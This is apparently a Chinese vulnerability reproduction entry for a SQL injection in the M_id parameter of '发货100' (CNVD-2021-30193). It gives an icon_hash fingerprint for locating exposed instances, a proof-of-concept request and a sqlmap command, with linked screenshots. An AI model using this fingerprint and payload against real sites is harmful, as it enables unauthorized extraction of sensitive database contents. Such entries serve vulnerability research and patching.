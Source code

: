 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>发货100</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1420424513"</a-checkbox></br>

## 漏洞复现

主页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210602204745265.png)



使用POC



```plain
/?M_id=1%27&type=product
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210602204842198.png)



数据库出现报错, 使用Sqlmap注入



```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210602233608318.png)